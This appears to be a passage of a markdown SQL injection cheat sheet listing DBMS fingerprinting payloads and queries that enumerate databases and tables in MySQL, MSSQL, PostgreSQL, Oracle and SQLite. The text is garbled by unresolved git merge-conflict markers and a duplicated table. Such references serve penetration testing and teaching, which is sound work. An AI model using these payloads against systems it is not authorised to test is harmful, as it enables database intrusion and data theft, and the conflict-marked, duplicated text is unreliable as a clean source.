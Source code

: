 | Order | Payload                        | DBMS       |
|-------|--------------------------------|------------|
| 1     | AND 'foo' 'bar' = 'foobar'	   | MySQL      |
| 2     | AND DATALENGTH('foo') = 3      | MSSQL      |
| 3     | AND TO_HEX(1) = '1'            | PostgreSQL |
| 4     | AND LENGTHB('foo') = '3'       | Oracle     |
| 5     | AND GLOB('foo*', 'foobar') = 1 | SQLite     |
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

* * *

# List Databases

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA <br> SELECT db FROM mysql.db |
| MSSQL      | SELECT name FROM master.sys.databases <br> SELECT name FROM master..sysdatabases |
| PostgreSQL | SELECT datname FROM pg_database <br> SELECT DISTINCT(schemaname) FROM pg_tables  |
| Oracle     | SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)                   |
| SQLite     | N/A                                                                              |

<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md

| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA <br> SELECT db FROM mysql.db |
| MSSQL      | SELECT name FROM master.sys.databases <br> SELECT name FROM master..sysdatabases |
| PostgreSQL | SELECT datname FROM pg_database <br> SELECT DISTINCT(schemaname) FROM pg_tables  |
| Oracle     | SELECT OWNER FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES)                   |
| SQLite     | N/A                                                                              |

=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

* * *

# List Tables

| DBMS       | Payload                                                              |
|------------|----------------------------------------------------------------------|
| MySQL      | SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[DBNAME]' <br> SELECT database_name,table_name FROM mysql.innodb_table_stats WHERE database_name='[DBNAME]'                                   |
| MSSQL      | SELECT table_name FROM information_schema.tables WHERE table_catalog='[DBNAME]' <br> SELECT name FROM [DBNAME]..sysobjects WHERE xtype='U'                                                                           |
| PostgreSQL | SELECT tablename FROM pg_tables WHERE schemaname = '[SCHEMA_NAME]' <br> SELECT table_name FROM information_schema.tables WHERE table_schema='[SCHEMA_NAME]'                                                        |
| Oracle     | SELECT OWNER,TABLE_NAME FROM SYS.ALL_TABLES WHERE OWNER='[DBNAME]'   |
| SQLite     | SELECT tbl_name FROM sqlite_master WHERE type='table'                |
<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
